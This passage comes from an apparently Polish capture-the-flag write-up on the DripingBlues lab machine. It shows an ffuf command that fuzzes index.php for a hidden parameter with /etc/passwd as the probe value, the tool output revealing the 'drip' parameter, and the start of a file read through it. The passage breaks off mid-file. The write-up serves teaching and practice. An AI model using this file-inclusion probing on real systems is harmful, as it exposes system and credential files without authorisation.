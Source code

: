 ## 05. Login i hasło

Plik **index.php** zawiera taką wiadomość:
{: .text-justify}
<div class="notice--primary" markdown="1">
http://172.16.1.195/index.php
```
driftingblues is hacked again so it's now called drippingblues. :D hahaha
by
travisscott & thugger 
```
</div>
Jednak co należy zauważyć, to że **index.php** jest to plik w formacie **PHP**. Nieśmiało można założyć, że będzie można coś z tym zrobić. Należy znaleźć parametr. Można go albo zgadnąć, albo sprawdzić wszystkie opcje. Tym razem na tapetę weźmiemy większy słownik **rockyou.txt**.
{: .text-justify}
```bash
# ffuf -w /usr/share/wordlists/rockyou.txt -u http://172.16.1.195/index.php?FUZZ=/etc/passwd -fs 138  
```
```console
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.1.195/index.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 138
________________________________________________

drip                    [Status: 200, Size: 3032, Words: 50, Lines: 58]
:: Progress: [14344392/14344392] :: Job [1/1] :: 3463 req/sec :: Duration: [1:39:30] :: Errors: 861 ::
```
Po dłuższym czasie mamy parametr. W sumie można było go zgadnąć, prawda? :smiley: Sprawdźmy takie coś:
{: .text-justify}
<div class="notice--primary" markdown="1">
view-source:http://172.16.1.195/index.php?drip=/etc/dripispowerful.html
```
<!DOCTYPE html>
<html>
<body>
<style>
body {
background-image: url('drippin.jpg');
background-repeat: no-repeat;
}

@font-face {
    font-family: Segoe;
    src: url('segoeui.ttf');
```